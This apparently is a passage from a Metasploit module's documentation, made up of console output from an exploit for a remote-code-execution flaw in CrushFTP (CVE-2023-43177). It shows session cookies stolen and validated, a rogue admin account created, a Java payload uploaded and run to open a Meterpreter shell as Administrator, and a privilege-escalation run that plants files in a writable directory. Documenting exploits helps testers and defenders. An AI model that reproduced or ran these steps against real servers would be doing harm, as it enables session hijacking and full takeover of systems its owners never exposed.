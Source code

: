 ```
[*] Cookie `1711115284720_HC3QlMqFXpqoY4iSEYzXUJOThVD7SX` is not valid
[*] Cookie `1711115283356_XYu6nd3kaL4zcjtOurFUNXknYprRmu` is not valid
[*] Checking if user crushadmin is an admin (cookie: 1711129187087_HwakJiMBcOOnUrEbe6hgbTuwqH7UVZ)
[+] It is an admin! Let's create a temporary admin account
[+] Administrator account created: username=f605ec51de, password=e5864cea12
[*] [do_login] Logging in with username `f605ec51de` and password `e5864cea12`
[*] Uploading payload .jar file `c32e.jar` to C:/Users/Public/c32e.jar
[*] Triggering the payload
[*] Cleanup the temporary admin account
[*] Started bind TCP handler against 192.168.101.54:4444
[*] Sending stage (57971 bytes) to 192.168.101.54
[+] Deleted ./WebInterface/Resources/libs/jq-3.6.0_9bce0d5c08-js
[*] Meterpreter session 11 opened (10.4.227.33:57574 -> 192.168.101.54:4444) at 2024-03-22 18:46:25 +0100
[!] This exploit may require manual cleanup of 'C:/Users/Public/c32e.jar' on the target

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer        : SRV-STD
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/windows
```

#### With an active non-privileged session (privilege escalation)
```
msf6 exploit(multi/http/crushftp_rce_cve_2023_43177) > exploit rhosts=192.168.101.54 verbose=true

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking CrushFTP Server
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130383791_FsmZz0FlGiiiYLl7V8qhICxtzfmQLN
[*] Checking if the attack primitive works
[*] Logging out session cookie `1711130383791_FsmZz0FlGiiiYLl7V8qhICxtzfmQLN`
[+] The target appears to be vulnerable.
[*] Downloading the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130385529_gfYIp4KJlwx6R5dy1JWcLhZZq9rOJS
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_9f9371966b-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711130385529_gfYIp4KJlwx6R5dy1JWcLhZZq9rOJS`
[*] Looking for the valid sessions
[*] Found 1 session cookies in the session file
[*] Cookie `1711130148838_IQCFIDkPBuRaLAVq2KI9D1hAlfgh0T` is valid session (username: msfuser)
[*] Checking if user msfuser is an admin (cookie: 1711130148838_IQCFIDkPBuRaLAVq2KI9D1hAlfgh0T)
[*] Could not find any admin session or the admin account creation failed
[*] Attempting privilege escalation with session cookie {:cookie=>"1711130148838_IQCFIDkPBuRaLAVq2KI9D1hAlfgh0T", :username=>"msfuser"}
[*] Looking for a directory with write permissions
[+] Found a writable directory: /home/readonly/writable1
[*] Uploading the egg file `4daf4b7923`
[*] Uploading `user.XML` to /home/readonly/writable1/user.XML
[*] Looking for the egg in the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130396337_KcYDlC0SZA19Z2uiWqw8dDyU0bVMO1
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_9f9371966b-js/`
[+] Session file downloaded
[*] Session file has not changed yet, skipping
[*] Logging out session cookie `1711130396337_KcYDlC0SZA19Z2uiWqw8dDyU0bVMO1`
[*] Egg not found, wait 30 seconds and try again... (Ctrl-C to exit)
```